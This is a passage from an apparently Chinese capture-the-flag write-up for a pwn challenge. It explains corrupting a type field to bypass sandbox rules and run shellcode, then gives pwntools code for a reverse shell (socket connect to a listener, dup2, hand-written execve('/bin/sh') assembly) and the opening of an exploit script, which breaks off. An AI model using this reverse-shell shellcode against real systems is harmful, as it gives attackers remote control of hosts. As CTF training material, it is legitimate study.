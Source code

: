 所以思路就是edit时破坏type，执行时绕过添加沙箱规则的函数直接执行shellcode，但是程序在fork出的子进程中关闭了三个基本的文件描述符，在执行的shellcode中直接调用`execve("/bin/sh",0,0)`是不行的，需要反弹shell，并且shellcode的长度需要小于0x64。

过程就是先在本地监听端口，再用shellcode完成socket, connect操作

```c
code = asm(pwnlib.shellcraft.amd64.linux.connect(ip,port))
```

由于此时文件描述符0,1,2都被关闭了，此时的socket返回的fd是0，所以再完成一次dup2操作，复制一个socket的fd为1

```python
code += asm(pwnlib.shellcraft.amd64.linux.dup2(0,1))
```

之后再执行/bin/sh时会按照正常情况将0作为标准输入，1作为标准输出来执行命令，但是此时的文件描述符0和1其实都已经是socket的fd，就在监听端获得了一个shell。

使用多线程编程来在一个窗口get shell，启一个线程与题目交互，主线程监听端口等待反弹shell。由于pwntools生成的执行sh的shellcode太长，可以自己手写一段。

```python
#!/usr/bin/python
from pwn import *
import sys
import time
import threading
context.log_level = 'debug'
context.arch='amd64'


code = asm(pwnlib.shellcraft.amd64.linux.connect('0.0.0.0',8888))
code += asm(pwnlib.shellcraft.amd64.linux.dup2(0,1))

#code += asm(pwnlib.shellcraft.amd64.linux.sh())

shell='''
	xor rsi,rsi;
	xor rdx,rdx;
	mov rax,0x68732f6e69622f;
	push rax;
	mov rdi,rsp;
	push 59;
	pop rax;
	syscall
'''
code += asm(shell)

def exp(ip, port):
	local=1
	binary_name='scm'
	libc_name='libc.so.6'

	libc=ELF("./"+libc_name)
	e=ELF("./"+binary_name)

	if local:
		p=process("./"+binary_name)
	else:
		p=remote(ip,port)



	def z(a=''):
		if local:
			gdb.attach(p,a)
			if a=='':
				raw_input
		else:
			pass
```